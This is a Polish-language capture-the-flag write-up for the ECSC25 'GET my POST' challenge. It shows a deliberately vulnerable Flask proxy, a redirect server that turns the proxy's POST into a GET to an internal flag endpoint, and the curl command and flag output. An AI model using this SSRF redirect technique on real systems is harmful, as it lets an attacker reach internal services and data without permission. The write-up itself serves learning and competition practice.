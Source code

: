 # GET my POST

Mamy podane dwa skrypty

`app.py`:
```python
import requests
from flask import Flask, request, abort

app = Flask(__name__)


@app.route('/submit', methods=['POST'])
def submit():
    if 'url' in request.json:
        return requests.post(request.json['url']).content
    else:
        abort(404)


@app.get("/")
def index():
    return "You can't connect to this API with your browser. Check the source code."


assert requests.get("http://internal:5001/flag").content.startswith(b"ecsc")

if __name__ == "__main__":
    app.run(port=5000)
```

oraz `internal.py`
```python
from flask import Flask

app = Flask(__name__)


@app.route('/flag', methods=['GET'])
def flag():
    return open("flag.txt", 'r').read()


if __name__ == "__main__":
    app.run(port=5001)
```

# SSRF (Server-Side Request Forgery)
`app.py` dostępna z zewnątrz przyjmuje POST na `/submit` i robi POST na podany URL
```python
if 'url' in request.json:
    return requests.post(request.json['url']).content
```
`internal.py` działa lokalnie na porcie 5001 i udostępnia flage na `/flag` **Ale tylko GET**, więc musimy przekonwertować POST na GET. Najprościej jest postawić własny serwer:
```python
from flask import Flask, redirect, request

app = Flask(__name__)

@app.route("/go", methods=["POST"])
def go():
    return redirect("http://internal:5001/flag", code=302)

if __name__ == "__main__":
    app.run(port=2222)
```
Następnie w URL podajemy adres naszego serwera i widzimy, że `app.py` robi request POST do naszego serwera, który ją przekierowywuje do `http://internal:5001/flag` i zwraca nam flagę.
```bash
curl -X POST https://get-my-post.ecsc25.hack.cert.pl/submit -H "Content-Type: application/json" -d '{"url":"https://twoj-serwer.com/go"}'
ecsc25{indirect_route}
```
